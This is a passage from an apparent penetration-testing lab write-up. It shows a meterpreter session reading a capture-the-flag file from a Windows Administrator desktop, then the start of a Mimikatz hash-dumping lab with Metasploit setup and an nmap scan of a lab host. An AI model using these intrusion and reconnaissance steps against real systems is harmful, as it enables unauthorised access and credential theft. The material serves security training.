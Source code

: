 ```bash
    40777/rwxrwxrwx   0        dir   2020-11-07 06:14:52 +0530  Cookies
    40555/r-xr-xr-x   0        dir   2020-11-07 06:14:51 +0530  Desktop
```

```bash
meterpreter > cd \\Users\\Administrator\\Desktop\\
meterpreter > dir
    Listing: C:\Users\Administrator\Desktop
    =======================================
    
    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100666/rw-rw-rw-  282   fil   2020-11-07 12:52:42 +0530  desktop.ini
    100666/rw-rw-rw-  32    fil   2021-04-22 12:07:24 +0530  flag.txt

meterpreter > cat flag.txt 
    x28c832a39730b7d46d6c38f1ea18e12
```

{% hint style="success" %}
Flag: `x28c832a39730b7d46d6c38f1ea18e12`
{% endhint %}

***

## Lab 4 - Dump Hashes Mimikatz <a href="#lab-4-dump-hashes-mimikatz" id="lab-4-dump-hashes-mimikatz"></a>

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> * Target IP: `10.0.18.161`
> * Check the [🔬Lab 2 - Mimikatz lab here](../../system-host-based-attack/windows-operating-system/windows-credentials-dumping.md) with full description of the commands

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.18.161
workspace -a Mimikatz
db_nmap -sV 10.0.18.161
```

```bash
[*] Nmap: Nmap scan report for 10.0.18.161
[*] Nmap: Host is up (0.0023s latency).
[*] Nmap: Not shown: 994 closed ports
[*] Nmap: PORT     STATE SERVICE       VERSION
[*] Nmap: 80/tcp   open  http          BadBlue httpd 2.7
[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services
[*] Nmap: 5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 17.18 seconds
```
